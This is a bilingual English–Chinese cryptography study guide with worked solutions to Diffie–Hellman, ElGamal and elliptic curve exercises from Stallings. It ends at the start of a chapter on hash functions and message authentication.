(a) \(P_A=3G=(10,6)\) and \(P_B=7G=(0,6)\).（a）\(P_A=3G=(10,6)\) 和 \(P_B=7G=(0,6)\)。
(b) Alice: \(3P_B=21G=2G=(6,3)\) because \(19G=O\). Bob: \(7P_A=21G=(6,3)\). By formula: \(2P_B=2(0,6)\) has \(\lambda=\frac{2}{12}\equiv\frac16\equiv3\), giving \((9,1)\); then \((9,1)+(0,6)\) has \(\lambda=\frac{5}{-9}\equiv\frac58\equiv5\cdot15=75\equiv7\), giving \((6,3)\). The secret is \((6,3)\).（b）Alice：\(3P_B=21G=2G=(6,3)\)，因为 \(19G=O\)。Bob：\(7P_A=21G=(6,3)\)。按公式：\(2P_B=2(0,6)\) 有 \(\lambda=\frac{2}{12}\equiv\frac16\equiv3\)，得到 \((9,1)\)；然后 \((9,1)+(0,6)\) 有 \(\lambda=\frac{5}{-9}\equiv\frac58\equiv5\cdot15=75\equiv7\)，得到 \((6,3)\)。秘密为 \((6,3)\)。
(c) \(C_1=kG=4G=(3,1)\). \(kP_B=4\cdot7G=28G=9G=(7,6)\). \(C_2=P_m+kP_B=(13,7)+(7,6)\): \(\lambda=\frac{6-7}{7-13}=\frac{1}{6}\equiv3\), \(x_R=9-13-7=-11\equiv6\), \(y_R=3(13-6)-7=14\). So \(C_m=\lbrace(3,1),(6,14)\rbrace\).（c）\(C_1=kG=4G=(3,1)\)。\(kP_B=4\cdot7G=28G=9G=(7,6)\)。\(C_2=P_m+kP_B=(13,7)+(7,6)\)：\(\lambda=\frac{6-7}{7-13}=\frac{1}{6}\equiv3\)、\(x_R=9-13-7=-11\equiv6\)、\(y_R=3(13-6)-7=14\)。因此 \(C_m=\lbrace(3,1),(6,14)\rbrace\)。
(d) \(n_BC_1=7\cdot(3,1)=28G=9G=(7,6)\), with negative \((7,11)\). Then \(C_2-n_BC_1=(6,14)+(7,11)\): \(\lambda=\frac{11-14}{7-6}=-3\equiv14\), \(x_R=14^2-6-7=183\equiv13\), \(y_R=14(6-13)-14=-112\equiv7\). This is \((13,7)=P_m\).（d）\(n_BC_1=7\cdot(3,1)=28G=9G=(7,6)\)，其中取负为 \((7,11)\)。然后 \(C_2-n_BC_1=(6,14)+(7,11)\)：\(\lambda=\frac{11-14}{7-6}=-3\equiv14\)、\(x_R=14^2-6-7=183\equiv13\)、\(y_R=14(6-13)-14=-112\equiv7\)。这即为 \((13,7)=P_m\)。
易错：减去一个点就是加上它的负点（\(y\) 取反）；\(P_B\) 与 \(C_1\) 的倍数可以用 \(19G=O\) 先对 19 取模再查表。
Q5. (Scenario and comparison, 12 marks) A LAN publishes each user's long-term DH public key in a central directory and is considering a move to ECC.Q5. （情景分析与比较，12 分）一个局域网在中央目录中公布每个用户的长期 DH 公钥，并考虑迁移到 ECC。
(a) Explain how users \(i\) and \(j\) obtain a shared key and what the key provides. (3)（a）解释用户 \(i\) 和 \(j\) 如何获得共享密钥，以及该密钥提供什么。（3）
(b) Name one attack that remains and one that an attacker who controls the directory can mount, and give a defence for each. (4)（b）说出一种仍然存在的攻击，以及攻击者控制目录后可以发起的另一种攻击，并分别给出防御办法。（4）
(c) State the key sizes needed for 128-bit security with DH or RSA and with ECC, and explain why ECC can use shorter keys. (3)（c）给出在 128 位安全强度下，DH 或 RSA 与 ECC 各自所需的密钥长度，并解释 ECC 为什么可以使用更短的密钥。（3）
(d) Explain why quantum computers affect all of these schemes. (2)（d）解释为什么量子计算机会影响所有这些方案。（2）
Answer
(a) User \(j\) reads \(Y_i\) from the directory and computes \(K_{ij}=(Y_i)^{X_j}\bmod q\); user \(i\) computes \((Y_j)^{X_i}\bmod q\), which is the same number \(\alpha^{X_iX_j}\bmod q\). Only \(i\) and \(j\) can compute it, so messages encrypted with it are confidential, and the recipient knows that only the other party could have created them (a degree of authentication).（a）用户 \(j\) 从目录中读取 \(Y_i\) 并计算 \(K_{ij}=(Y_i)^{X_j}\bmod q\)；用户 \(i\) 计算 \((Y_j)^{X_i}\bmod q\)，二者是同一个数 \(\alpha^{X_iX_j}\bmod q\)。只有 \(i\) 和 \(j\) 能够计算它，因此用它加密的消息是保密的，并且接收方知道只有对方才可能产生这些消息（一定程度的认证）。
(b) Replay: a recorded message can be resent because the key is static; defend with timestamps, nonces or sequence numbers. Directory attack: an attacker who replaces \(Y_i\) by his own value becomes a man-in-the-middle; defend by signing or certifying the directory entries (Chapter 13).（b）重放：由于密钥是静态的，被记录的消息可以被重新发送；应以时间戳、一次性随机数或序列号加以防御。目录攻击：攻击者用自己的值替换 \(Y_i\)，便成为中间人；应对目录条目进行签名或证书认证加以防御（第 13 章）。
(c) 128-bit security needs 3072-bit RSA or DH (\(L=3072\)) but only 256-bit ECC, twelve times shorter. The best attack on ECC, Pollard rho, is generic and takes about \(\sqrt n\) steps, whereas factoring and finite-field discrete logarithms have faster sub-exponential attacks, so their keys must be longer.（c）128 位安全强度需要 3072 位的 RSA 或 DH（\(L=3072\)），而 ECC 只需 256 位，短十二倍。针对 ECC 的最佳攻击 Pollard rho 是通用攻击，需要约 \(\sqrt n\) 步；而因数分解和有限域离散对数存在更快的次指数攻击，因此它们的密钥必须更长。
(d) A large quantum computer running Shor's algorithm solves factoring, discrete logarithms and elliptic curve logarithms efficiently, so RSA, DH, ElGamal and ECC would all be broken; this is why NIST is standardizing post-quantum algorithms such as CRYSTALS-KYBER.（d）运行 Shor 算法的大规模量子计算机能高效地解决因数分解、离散对数和椭圆曲线对数问题，因此 RSA、DH、ElGamal 和 ECC 都将被攻破；这正是 NIST 要标准化 CRYSTALS-KYBER 等后量子算法的原因。
Textbook exercises课后习题
Textbook exercises with answers: 10 questions教材习题及答案，共 10 题，点击展开
E1. (Review Question 10.1, Stallings) What is the relation between the security of the Diffie–Hellman key exchange and the difficulty of computing discrete logarithms?E1.（复习题 10.1，Stallings）Diffie–Hellman 密钥交换的安全性与计算离散对数的难度之间有什么关系？
Answer
In Diffie–Hellman with public prime \(q\) and primitive root \(\alpha\), the public values are \(Y_A = \alpha^{X_A} \bmod q\) and \(Y_B = \alpha^{X_B} \bmod q\), and the shared key is \(K = \alpha^{X_A X_B} \bmod q\). An eavesdropper sees \(q\), \(\alpha\), \(Y_A\) and \(Y_B\) but needs \(X_A\) or \(X_B\) to compute \(K\). Obtaining \(X_A\) from \(Y_A\) is the discrete logarithm problem \(X_A = \log_\alpha Y_A \bmod q\).在公开素数 \(q\) 和本原根 \(\alpha\) 的 Diffie–Hellman 中，公开值为 \(Y_A = \alpha^{X_A} \bmod q\) 和 \(Y_B = \alpha^{X_B} \bmod q\)，共享密钥为 \(K = \alpha^{X_A X_B} \bmod q\)。窃听者能看到 \(q\)、\(\alpha\)、\(Y_A\) 和 \(Y_B\)，但要算出 \(K\)，他需要 \(X_A\) 或 \(X_B\)。由 \(Y_A\) 求出 \(X_A\)，就是离散对数问题 \(X_A = \log_\alpha Y_A \bmod q\)。
So if discrete logarithms could be computed efficiently, Diffie–Hellman would be broken. Its security rests on the assumption that the discrete logarithm is infeasible for a large prime \(q\), with \(q\) of 2048 bits or more in practice, while exponentiation \(\alpha^X \bmod q\) is easy. (It is not proved that breaking Diffie–Hellman needs a discrete logarithm, but no easier attack is known.)因此，如果能高效地计算离散对数，Diffie–Hellman 就会被攻破。它的安全性建立在这样一个假设上：对于大素数 \(q\)，离散对数是不可行的，在实践中 \(q\) 取 2048 比特或更长，而幂运算 \(\alpha^X \bmod q\) 则很容易。（攻破 Diffie–Hellman 是否必须求解离散对数，并未得到证明；但目前也不知道有更容易的攻击。）
思路：窃听者要得到密钥就得由 Y 求 X，即解离散对数；大素数下不可行。
E2. (Review Question 10.2, Stallings) Explain the security of elliptic curve cryptography (ECC) and how it compares to the security of RSA.E2.（复习题 10.2，Stallings）解释椭圆曲线密码（ECC）的安全性，并说明它与 RSA 的安全性相比如何。
Answer
The security of ECC rests on the elliptic curve discrete logarithm problem (ECDLP): given points \(P\) and \(Q = kP\) on the curve, find the integer \(k\). The best known attack is the Pollard rho method, a generic attack that needs about \(\sqrt{n}\) steps for a group of order \(n\). For factoring (RSA) and for discrete logarithms modulo a prime (Diffie–Hellman, ElGamal), faster sub-exponential attacks exist, so those keys must be much longer.ECC 的安全性建立在椭圆曲线离散对数问题（ECDLP）之上：给定曲线上的两个点 \(P\) 和 \(Q = kP\)，求出整数 \(k\)。目前已知最好的攻击是 Pollard rho 方法，这是一种通用攻击，对于阶为 \(n\) 的群，大约需要 \(\sqrt{n}\) 步。对于因数分解（RSA）以及素数模上的离散对数（Diffie–Hellman、ElGamal），存在更快的亚指数攻击，因此这些密钥必须长得多。
Comparison at the 128-bit security level: ECC needs about 256-bit keys, RSA needs 3072-bit moduli, twelve times longer. ECC therefore gives the same security with less computation, storage and bandwidth. Its drawbacks are a more complex scheme and a shorter history of cryptanalysis than RSA, so confidence in it is somewhat lower.在 128 比特安全强度下比较：ECC 需要约 256 比特的密钥，RSA 需要 3072 比特的模数，长十二倍。因此，ECC 能以更少的计算、存储和带宽提供相同的安全性。它的缺点是方案更复杂，而且受到的密码分析时间比 RSA 短，因此人们对它的信心稍低。
思路：ECDLP 只有指数级的通用攻击，所以同等安全下密钥比 RSA 短得多（256 对 3072 位）。
E3. (Review Question 10.3, Stallings) What is the zero point of an elliptic curve?E3.（复习题 10.3，Stallings）椭圆曲线的零点是什么？
Answer
The zero point, also called the point at infinity and written \(O\), is a special extra element that is added to the set of curve points. It is the identity element of the addition group: \(P + O = P\) for every point \(P\), and \(P + (-P) = O\), where \(-P\) is the mirror image of \(P\) in the \(x\)-axis. It is the result of adding two points on a vertical line, and \(O = -O\). Without \(O\) the points would not form a group, because inverses would not always have a sum.零点，又称无穷远点，记作 \(O\)，是加入曲线点集合中的一个特殊额外元素。它是加法群的单位元：对每个点 \(P\) 都有 \(P + O = P\)，并且 \(P + (-P) = O\)，其中 \(-P\) 是 \(P\) 关于 \(x\) 轴的镜像。两点位于同一条竖直线上时，它们相加的结果就是它，并且 \(O = -O\)。若没有 \(O\)，这些点就不能构成群，因为有些点与其逆元相加就没有结果。
E4. (Review Question 10.4, Stallings) What is the sum of three points on an elliptic curve that lie on a straight line?E4.（复习题 10.4，Stallings）椭圆曲线上位于同一条直线上的三个点，它们的和是多少？
Answer
It is the zero point: if \(P\), \(Q\) and \(R\) lie on one straight line, then \(P + Q + R = O\). This is the geometric definition of addition: a line meets a cubic curve in three points (counted with multiplicity). To add \(P\) and \(Q\), draw the line through them; it meets the curve in a third point \(R\), and \(P + Q = -R\), the reflection of \(R\) in the \(x\)-axis. Rewriting this as \(P + Q + R = O\) shows the rule.结果是零点：如果 \(P\)、\(Q\) 和 \(R\) 在同一条直线上，那么 \(P + Q + R = O\)。这就是加法的几何定义：一条直线与三次曲线相交于三个点（按重数计）。要计算 \(P\) 与 \(Q\) 的和，先画过它们的直线，它与曲线交于第三个点 \(R\)，并且 \(P + Q = -R\)，它是 \(R\) 关于 \(x\) 轴的镜像。把它写成 \(P + Q + R = O\) 就能看出这条规则。
E5. (Review Question 21.6, Stallings & Brown) Briefly explain Diffie–Hellman key exchange.E5.（复习题 21.6，Stallings & Brown）简要解释 Diffie–Hellman 密钥交换。
Answer
Diffie–Hellman lets two parties agree on a shared secret key over an insecure channel without having met before.Diffie–Hellman 让两方在不安全的信道上协商出一个共享的秘密密钥，而且双方事先无需相识。
- Alice and Bob publicly agree on a prime \(q\) and a primitive root \(\alpha\) of \(q\).Alice 和 Bob 公开商定一个素数 \(q\)，以及模 \(q\) 的一个本原根 \(\alpha\)。
- Alice picks a secret \(X_A < q\) and sends \(Y_A = \alpha^{X_A} \bmod q\). Bob picks a secret \(X_B < q\) and sends \(Y_B = \alpha^{X_B} \bmod q\).Alice 选取一个秘密数 \(X_A < q\)，并发送 \(Y_A = \alpha^{X_A} \bmod q\)。Bob 选取一个秘密数 \(X_B < q\)，并发送 \(Y_B = \alpha^{X_B} \bmod q\)。
- Alice computes \(K = (Y_B)^{X_A} \bmod q\) and Bob computes \(K = (Y_A)^{X_B} \bmod q\). Both equal \(\alpha^{X_A X_B} \bmod q\).Alice 计算 \(K = (Y_B)^{X_A} \bmod q\)，Bob 计算 \(K = (Y_A)^{X_B} \bmod q\)。两者都等于 \(\alpha^{X_A X_B} \bmod q\)。
An eavesdropper knows \(q\), \(\alpha\), \(Y_A\), \(Y_B\), but computing \(K\) requires a discrete logarithm. The protocol gives key exchange only (no encryption or signature) and does not authenticate the parties, so an active man-in-the-middle can substitute his own public values; the public values must be authenticated, for example by signatures.窃听者知道 \(q\)、\(\alpha\)、\(Y_A\) 和 \(Y_B\)，但要算出 \(K\) 需要求解离散对数。该协议只负责密钥交换（不提供加密或签名），而且不认证通信双方，因此主动的中间人可以用自己的公开值替换它们；公开值必须经过认证，例如用签名。
E6. (Problem 10.2, Stallings) Alice and Bob use the Diffie–Hellman key exchange technique with a common prime \(q = 23\) and a primitive root \(\alpha = 5\). (a) If Bob has public key \(Y_B = 10\), what is Bob's private key \(X_B\)? (b) If Alice has public key \(Y_A = 8\), what is the shared key \(K\) with Bob? (c) Show that 5 is a primitive root of 23.E6.（习题 10.2，Stallings）Alice 和 Bob 使用 Diffie–Hellman 密钥交换技术，公共素数为 \(q = 23\)，本原根为 \(\alpha = 5\)。(a) 如果 Bob 的公钥是 \(Y_B = 10\)，那么 Bob 的私钥 \(X_B\) 是多少？(b) 如果 Alice 的公钥是 \(Y_A = 8\)，那么她与 Bob 的共享密钥 \(K\) 是多少？(c) 证明 5 是 23 的一个本原根。
Answer
(a) We need \(5^{X_B} \equiv 10 \pmod{23}\). Computing powers of 5 modulo 23 (5, 2, 10, 4, 20, 8, ...) gives \(5^1 = 5\), \(5^2 = 25 \equiv 2\), \(5^3 = 10\). So \(X_B = 3\).(a) 我们需要 \(5^{X_B} \equiv 10 \pmod{23}\)。计算 5 的模 23 幂（5、2、10、4、20、8……）得到 \(5^1 = 5\)、\(5^2 = 25 \equiv 2\)、\(5^3 = 10\)。所以 \(X_B = 3\)。
(b) Alice's public key \(8\) is reached at \(5^6\): \(5^4 = 4\), \(5^5 = 20\), \(5^6 = 100 \equiv 8\), so \(X_A = 6\) (not needed for the answer). The shared key is \(K = (Y_A)^{X_B} \bmod 23 = 8^3 = 512 \equiv 512 - 22 \cdot 23 = 6\). Check from Alice's side: \((Y_B)^{X_A} = 10^6 \bmod 23 = 6\). So \(K = 6\).(b) Alice 的公钥 \(8\) 出现在指数 \(5^6\) 处：\(5^4 = 4\)、\(5^5 = 20\)、\(5^6 = 100 \equiv 8\)，所以 \(X_A = 6\)（这一步对答案并非必需）。共享密钥为 \(K = (Y_A)^{X_B} \bmod 23 = 8^3 = 512 \equiv 512 - 22 \cdot 23 = 6\)。从 Alice 一侧核对：\((Y_B)^{X_A} = 10^6 \bmod 23 = 6\)。所以 \(K = 6\)。
(c) A primitive root has multiplicative order \(q - 1 = 22\), that is, its powers cover all of \(1, \ldots, 22\). Since \(22 = 2 \cdot 11\), the order of 5 divides 22 and is one of \(1, 2, 11, 22\). We have \(5^2 = 25 \equiv 2 \ne 1\) and \(5^{11} \equiv 22 \equiv -1 \ne 1\) (computed by repeated squaring), so the order is neither 1, 2 nor 11. Hence the order is 22 and 5 is a primitive root of 23.(c) 本原根的乘法阶为 \(q - 1 = 22\)，也就是说它的各次幂遍历 \(1, \ldots, 22\) 中的全部元素。由于 \(22 = 2 \cdot 11\)，5 的阶整除 22，并且是 \(1, 2, 11, 22\) 中的一个。我们有 \(5^2 = 25 \equiv 2 \ne 1\) 和 \(5^{11} \equiv 22 \equiv -1 \ne 1\)（用反复平方法算出），所以阶既不是 1、2，也不是 11。因此阶为 22，5 是 23 的一个本原根。
思路：小模数下逐次乘方求离散对数；本原根只需检查 5^2 与 5^11 都不等于 1。
E7. (Problem 10.6, Stallings) Suppose Alice and Bob use an ElGamal scheme with a common prime \(q = 157\) and a primitive root \(\alpha = 5\). (a) If Bob has public key \(Y_B = 10\) and Alice chose the random integer \(k = 3\), what is the ciphertext of \(M = 9\)? (b) If Alice now chooses a different value of \(k\) so that the encoding of \(M = 9\) is \(C = (25, C_2)\), what is the integer \(C_2\)?E7.（习题 10.6，Stallings）假设 Alice 和 Bob 使用 ElGamal 方案，公共素数为 \(q = 157\)，本原根为 \(\alpha = 5\)。(a) 如果 Bob 的公钥是 \(Y_B = 10\)，而 Alice 选取的随机整数是 \(k = 3\)，那么消息 \(M = 9\) 的密文是什么？(b) 如果 Alice 现在改选另一个 \(k\) 的值，使得 \(M = 9\) 的编码为 \(C = (25, C_2)\)，那么整数 \(C_2\) 应为多少？
Answer
ElGamal encryption: choose \(k\), compute the one-time key \(K = (Y_B)^k \bmod q\), and send \(C_1 = \alpha^k \bmod q\) and \(C_2 = K M \bmod q\).ElGamal 加密：选取 \(k\)，计算一次性密钥 \(K = (Y_B)^k \bmod q\)，并发送 \(C_1 = \alpha^k \bmod q\) 和 \(C_2 = K M \bmod q\)。
(a) \(K = 10^3 = 1000 \equiv 1000 - 6 \cdot 157 = 58 \pmod{157}\). \(C_1 = 5^3 = 125\). \(C_2 = 58 \cdot 9 = 522 \equiv 522 - 3 \cdot 157 = 51\). The ciphertext is \((125, 51)\).(a) \(K = 10^3 = 1000 \equiv 1000 - 6 \cdot 157 = 58 \pmod{157}\)。\(C_1 = 5^3 = 125\)。\(C_2 = 58 \cdot 9 = 522 \equiv 522 - 3 \cdot 157 = 51\)。密文为 \((125, 51)\)。
(b) \(C_1 = 25 = 5^2\), so \(k = 2\). Then \(K = 10^2 = 100\), and \(C_2 = 100 \cdot 9 = 900 \equiv 900 - 5 \cdot 157 = 115\). The ciphertext is \((25, 115)\).(b) \(C_1 = 25 = 5^2\)，所以 \(k = 2\)。然后 \(K = 10^2 = 100\)，并且 \(C_2 = 100 \cdot 9 = 900 \equiv 900 - 5 \cdot 157 = 115\)。密文为 \((25, 115)\)。
Bob decrypts with \(K = C_1^{X_B} \bmod q\) and \(M = C_2 K^{-1} \bmod q\). A fresh \(k\) must be used for every message: reusing \(k\) would reveal the ratio of two plaintexts.Bob 用 \(K = C_1^{X_B} \bmod q\) 和 \(M = C_2 K^{-1} \bmod q\) 解密。每条消息都必须使用新的 \(k\)：如果重复使用 \(k\)，就会泄露两条明文之间的比值。
E8. (Problem 10.12, Stallings) Consider the elliptic curve \(E_7(2, 1)\); that is, the curve \(y^2 = x^3 + 2x + 1\) with modulus \(p = 7\). Determine all the points of \(E_7(2, 1)\).E8.（习题 10.12，Stallings）考虑椭圆曲线 \(E_7(2, 1)\)，即模 \(p = 7\) 的曲线 \(y^2 = x^3 + 2x + 1\)。求出 \(E_7(2, 1)\) 的所有点。
Answer
For each \(x \in \{0, \ldots, 6\}\) compute \(x^3 + 2x + 1 \bmod 7\) and test whether it is a square modulo 7. The squares modulo 7 are \(0^2 = 0\), \(1^2 = 6^2 = 1\), \(2^2 = 5^2 = 4\), \(3^2 = 4^2 = 2\), so the quadratic residues are \(\{0, 1, 2, 4\}\).对每个 \(x \in \{0, \ldots, 6\}\) 计算 \(x^3 + 2x + 1 \bmod 7\)，并检验它是否为模 7 的平方剩余。模 7 的平方数是 \(0^2 = 0\)、\(1^2 = 6^2 = 1\)、\(2^2 = 5^2 = 4\)、\(3^2 = 4^2 = 2\)，因此二次剩余为 \(\{0, 1, 2, 4\}\)。
| \(x\) | \(x^3 + 2x + 1 \bmod 7\) | square?是平方剩余？ | points点 |
|---|---|---|---|
| 0 | 1 | yes, \(y = 1, 6\) | (0, 1), (0, 6) |
| 1 | 4 | yes, \(y = 2, 5\) | (1, 2), (1, 5) |
| 2 | 6 | no否 | none无 |
| 3 | 6 | no否 | none无 |
| 4 | 3 | no否 | none无 |
| 5 | 3 | no否 | none无 |
| 6 | 5 | no否 | none无 |
Therefore \(E_7(2, 1) = \{O, (0,1), (0,6), (1,2), (1,5)\}\), which has 5 elements including the point at infinity \(O\). This agrees with the symmetry of the curve: the points come in pairs \((x, y)\), \((x, -y)\).因此 \(E_7(2, 1) = \{O, (0,1), (0,6), (1,2), (1,5)\}\)，共 5 个元素（包括无穷远点 \(O\)）。这与曲线的对称性一致：各点成对出现，如 \((x, y)\) 与 \((x, -y)\)。
思路：对每个 x 算右边，看是否为模 7 的二次剩余，别忘了无穷远点 O。
E9. (Problem 10.15, Stallings) This problem performs elliptic curve encryption and decryption. The system parameters are \(E_{11}(1, 7)\) (the curve \(y^2 = x^3 + x + 7 \bmod 11\)) and \(G = (3, 2)\). B's private key is \(n_B = 7\). (a) Find B's public key \(P_B\). (b) A wishes to encrypt the message \(P_m = (10, 7)\) and chooses the random value \(k = 5\). Determine the ciphertext \(C_m\). (c) Show the calculation by which B recovers \(P_m\) from \(C_m\).E9.（习题 10.15，Stallings）本题进行椭圆曲线的加密和解密。系统参数为 \(E_{11}(1, 7)\)（曲线 \(y^2 = x^3 + x + 7 \bmod 11\)）和 \(G = (3, 2)\)。B 的私钥是 \(n_B = 7\)。(a) 求 B 的公钥 \(P_B\)。(b) A 想加密消息 \(P_m = (10, 7)\)，并选取随机值 \(k = 5\)。求密文 \(C_m\)。(c) 写出 B 由 \(C_m\) 恢复 \(P_m\) 的计算过程。
Answer
Addition rule modulo 11 for \(P_1 \neq P_2\): \(\lambda = (y_2 - y_1)/(x_2 - x_1)\); for doubling: \(\lambda = (3x_1^2 + 1)/(2y_1)\); then \(x_3 = \lambda^2 - x_1 - x_2\) and \(y_3 = \lambda(x_1 - x_3) - y_1\).对 \(P_1 \neq P_2\) 的模 11 加法规则：\(\lambda = (y_2 - y_1)/(x_2 - x_1)\)；倍点规则：\(\lambda = (3x_1^2 + 1)/(2y_1)\)；然后是 \(x_3 = \lambda^2 - x_1 - x_2\) 和 \(y_3 = \lambda(x_1 - x_3) - y_1\)。
Multiples of \(G\) computed by repeated addition:用重复相加算出 \(G\) 的各个倍数：
G=(3,2) 2G=(10,4) 3G=(1,8) 4G=(5,4) 5G=(4,8) 6G=(7,7) 7G=(6,8)
(a) \(P_B = n_B G = 7G = (6, 8)\).
(b) The ciphertext is the pair \(C_m = \{kG,\ P_m + kP_B\}\). First, \(kG = 5G = (4, 8)\). Next, \(kP_B = 5 \cdot 7G = 35G\). The multiples continue periodically (the order of \(G\) is 15, since \(8G = (6, 3) = -7G\)), so \(35G = 5G = (4, 8)\). Then \(P_m + kP_B = (10, 7) + (4, 8)\): \(\lambda = (8 - 7)/(4 - 10) = 1 \cdot (-6)^{-1} = 1 \cdot 5^{-1} = 9 \pmod{11}\), \(x_3 = 81 - 10 - 4 = 67 \equiv 1\), \(y_3 = 9(10 - 1) - 7 = 74 \equiv 8\). So \(C_m = \{(4, 8),\ (1, 8)\}\).(b) 密文是数对 \(C_m = \{kG,\ P_m + kP_B\}\)。首先，\(kG = 5G = (4, 8)\)。接着，\(kP_B = 5 \cdot 7G = 35G\)。这些倍数是周期性出现的（\(G\) 的阶为 15，因为 \(8G = (6, 3) = -7G\)），所以 \(35G = 5G = (4, 8)\)。然后 \(P_m + kP_B = (10, 7) + (4, 8)\)：\(\lambda = (8 - 7)/(4 - 10) = 1 \cdot (-6)^{-1} = 1 \cdot 5^{-1} = 9 \pmod{11}\)，\(x_3 = 81 - 10 - 4 = 67 \equiv 1\)，\(y_3 = 9(10 - 1) - 7 = 74 \equiv 8\)。所以 \(C_m = \{(4, 8),\ (1, 8)\}\)。
(c) B multiplies the first point by the private key and subtracts it from the second: \(n_B \cdot (4, 8) = 7 \cdot 5G = 35G = (4, 8)\), and \(P_m = (1, 8) - (4, 8) = (1, 8) + (4, 3) = (10, 7)\), where \(-(4, 8) = (4, -8) = (4, 3)\). This equals the original message.(c) B 把第一个点乘以私钥，再从第二个点中减去它：\(n_B \cdot (4, 8) = 7 \cdot 5G = 35G = (4, 8)\)，并且 \(P_m = (1, 8) - (4, 8) = (1, 8) + (4, 3) = (10, 7)\)，其中 \(-(4, 8) = (4, -8) = (4, 3)\)。这正是原来的消息。
It works because \(P_m + kP_B - n_B(kG) = P_m + k n_B G - n_B k G = P_m\). An eavesdropper sees \(kG\) but cannot find \(k\) from it (ECDLP).之所以成立，是因为 \(P_m + kP_B - n_B(kG) = P_m + k n_B G - n_B k G = P_m\)。窃听者看到 \(kG\)，但无法由它求出 \(k\)（ECDLP）。
思路：密文 = (kG, Pm + k·PB)；解密时用 nB·(kG) 等于 k·PB，再相减。
E10. (Problem 10.16, Stallings) The following is a first attempt at an elliptic curve signature scheme. We have a global elliptic curve, prime \(p\) and generator \(G\). Alice picks a private signing key \(X_A\) and forms the public verifying key \(Y_A = X_A G\). To sign a message \(M\) (treated as a point of the group): Alice picks a value \(k\) and sends Bob \(M\), \(k\) and the signature \(S = M - kX_A G\). Bob verifies that \(M = S + kY_A\). (a) Show that this scheme works, that is, that the verification gives an equality if the signature is valid. (b) Show that the scheme is unacceptable by describing a simple technique for forging a user's signature on an arbitrary message.E10.（习题 10.16，Stallings）下面是一个椭圆曲线签名方案的初步尝试。我们有一条全局椭圆曲线、素数 \(p\) 和生成元 \(G\)。Alice 选取私有签名密钥 \(X_A\)，并算出公开验证密钥 \(Y_A = X_A G\)。要对消息 \(M\)（视为群中的一个点）签名时，Alice 选取一个值 \(k\)，并把 \(M\)、\(k\) 和签名 \(S = M - kX_A G\) 发送给 Bob。Bob 验证 \(M = S + kY_A\)。(a) 证明该方案可行，即若签名有效，验证式成立。(b) 通过描述一种对任意消息伪造用户签名的简单方法，说明该方案不可接受。
Answer
(a) Bob computes \(S + kY_A = (M - kX_A G) + k(X_A G) = M - kX_A G + kX_A G = M\). The equality holds for a valid signature.(a) Bob 计算 \(S + kY_A = (M - kX_A G) + k(X_A G) = M - kX_A G + kX_A G = M\)。对于有效签名，该等式成立。
(b) The check uses only public values: \(M\), \(k\), \(S\) and \(Y_A\). An adversary needs no private key. For any message \(M\) he chooses any value \(k\) and sets \(S = M - kY_A\), which he can compute because \(Y_A\) is public. Bob's test \(S + kY_A = M - kY_A + kY_A = M\) then succeeds. Since \(kY_A = kX_A G\), this \(S\) is exactly the "valid" signature \(M - kX_A G\) without knowing \(X_A\).(b) 验证只用到公开值：\(M\)、\(k\)、\(S\) 和 \(Y_A\)。攻击者不需要私钥。对于任意消息 \(M\)，他选取任意值 \(k\)，并设定 \(S = M - kY_A\)，由于 \(Y_A\) 是公开的，他能够算出它。于是 Bob 的检验 \(S + kY_A = M - kY_A + kY_A = M\) 成立。由于 \(kY_A = kX_A G\)，这个 \(S\) 恰好就是“有效”签名 \(M - kX_A G\)，而他并不需要知道 \(X_A\)。
So anyone can forge signatures on arbitrary messages: the signature depends on \(X_A\) only through the public value \(Y_A\), and \(k\) is sent in the clear, so the secret gives no protection. A secure signature must bind the private key in a way that cannot be reproduced from public data (as in ECDSA, where \(s\) combines the hash, the secret key and a secret one-time \(k\) that is not revealed).因此，任何人都可以对任意消息伪造签名：签名对 \(X_A\) 的依赖只体现在公开值 \(Y_A\) 中，而且 \(k\) 是明文发送的，所以这个秘密没有起到保护作用。安全的签名必须以无法由公开数据复现的方式绑定私钥（例如 ECDSA 中，\(s\) 将散列值、私钥以及一个不公开的一次性秘密值 \(k\) 结合在一起）。
思路：验证只用公开量，伪造者任取 k，令 S = M − k·YA 即可通过验证。
Chapter 11Cryptographic Hash Functions密码学散列函数Reading: Stallings (Crypto) Ch. 11; Stallings & Brown 2.2, 21.1
Hash functions and their applications ★★★散列函数及其应用
Goal. Define a cryptographic hash function, show why a hash sent next to a message proves nothing by itself, and list the four ways to protect it. Compare a MAC, a signature and a password file as uses of a hash.目标。定义密码学散列函数，说明随消息一起发送的散列值本身为什么不能证明任何东西，并列出保护它的四种方法。比较 MAC、签名和口令文件各自如何使用散列。
Step 1: what makes a hash cryptographic第 1 步：什么使散列具有密码学性质
In words: a cryptographic hash function is a fingerprint function from which nobody can work backwards or build two messages with the same fingerprint.用文字表述：密码学散列函数是一种指纹函数，没有人能从它反推出原消息，也没有人能构造出两条指纹相同的消息。
A cryptographic hash function（密码学散列函数）is a hash function for which it is computationally infeasible (no attack is much better than brute force) to find密码学散列函数是这样一种散列函数：要找到以下内容，在计算上是不可行的（没有任何攻击比穷举法强得多）
- an input that maps to a given hash value (the one-way property（单向性）), or映射到给定散列值的某个输入（即 单向性），或
- two inputs that map to the same hash value (the collision-free property).映射到同一散列值的两个输入（即 抗碰撞性）。
The input is padded to a multiple of a fixed block length. The padding（填充）carries the length of the original message in bits. The length field makes it harder to build a second message with the same hash.输入会被填充到固定分组长度的整数倍。填充中包含原始消息的比特长度。长度字段使得构造另一条具有相同散列值的消息变得更困难。
Step 2: message authentication第 2 步：报文认证
In words: a hash next to a message proves nothing, because the attacker can recompute the hash of a changed message; the hash must depend on a secret.用文字表述：消息旁边附带一个散列值毫无证明力，因为攻击者可以对被篡改的消息重新计算散列值；散列值必须依赖于一个秘密。
Message authentication（报文认证）assures that data are exactly as sent (no modification, insertion, deletion or replay) and, usually, that the sender is genuine. With a hash, the sender transmits \(M\) and \(H(M)\). The receiver recomputes the hash of the received bits and compares. A mismatch shows that the message or the hash was altered.报文认证保证数据与发送时完全一致（没有被修改、插入、删除或重放），通常还保证发送者是真实的。用散列来做的话，发送者发送 \(M\) 和 \(H(M)\)。接收者对收到的比特重新计算散列并进行比较。若不一致，就说明消息或散列值被改动过。
The attack: Darth intercepts \((M,H(M))\) and sends \((M^*,H(M^*))\). Bob recomputes the hash, finds a match and accepts.攻击方式是：Darth 截获 \((M,H(M))\)，并发送 \((M^*,H(M^*))\)。Bob 重新计算散列，发现一致，于是接受。

